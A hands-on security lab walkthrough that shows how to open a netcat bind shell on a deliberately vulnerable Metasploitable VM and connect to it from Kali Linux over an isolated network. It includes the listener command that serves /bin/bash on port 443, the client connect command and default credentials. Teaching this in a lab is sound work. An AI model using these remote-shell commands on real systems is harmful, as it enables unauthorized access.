

- [ ] Pasitikrinti ar viskas veikia

**Lab Objective:**

Learn how to use netcat to establish a bind shell on a target machine.

**Lab Purpose:**

Netcat is a computer networking utility for reading from and writing to network connections using TCP or UDP.

**Lab Tool:**

Kali Linux VM and Metasploitable VM.

**Lab Topology:**

You can use Kali Linux in a VM for this lab.

**Lab Walkthrough:**

### Task 1:

In this lab, we will be using netcat to create a bind shell on a metasploitable machine. If you are unfamiliar with metasploitable, it is an intentionally vulnerable machine which can be loaded in VMware or VirtaulBox, the same as Kali Linux. You can download the metasploitable ISO file here: [https://docs.rapid7.com/metasploit/metasploitable-2/](https://docs.rapid7.com/metasploit/metasploitable-2/)

You can find a lot of material on this page on how to download and setup the metasploitable machine.

We will use both Kali Linux and Metasploitable for this lab. Remember to put both machines on the same isolated host-only network to talk to each other. When login is required, you will enter “**msfadmin**” as username and password.

### Task 2:

Setting up a bind shell with netcat is not as straightforward or practical as a reverse shell, but is still useful to know. To begin, we will go to our Metasploitable VM and open a terminal. The way a bind shell works is by creating a listener on our target machine and connecting to this listener from our

attack machine. Bind shells are not as commonly used as reverse shells as firewalls often prevent outside connections to machines in this way. However, if a reverse shell does not work on a target, it is worth trying a bind shell.

First, let’s find out the eth0 IP address of our Metasploitable VM and write it down. We will use this information on our Kali VM. Open a terminal screen in Metasploitable VM and type this command:

ifconfig

192.168.56.102 is the IP address of our Metasploitable VM in this case.

Then, type the following commands:

sudo su –  
sudo nc -lvnp 443 -e /bin/bash

You will then be asked for a password for sudo, the password by default is “msfadmin”.

-l tells netcat that this will be a listener  
-v is used to show us a verberos output  
-n tells netcat not to use DNS or resolve host names  
-p tells netcat which port to listen on

### Task 3:

We will now switch to our attack machine, which is our Kali machine. We can use a number of payloads to get the target machine to open a port and listen for connections, but, for now, we will simply be demonstrating how this works using netcat. Open a terminal screen on the Kali VM and type the following:

nc 192.168.56.102 443

You will now have a shell connecting your Kali machine through netcat to the target metasploitable machine. As you can see, you are now able to execute some commands (whoami, id) from your Kali machine on the Metasploitable machine.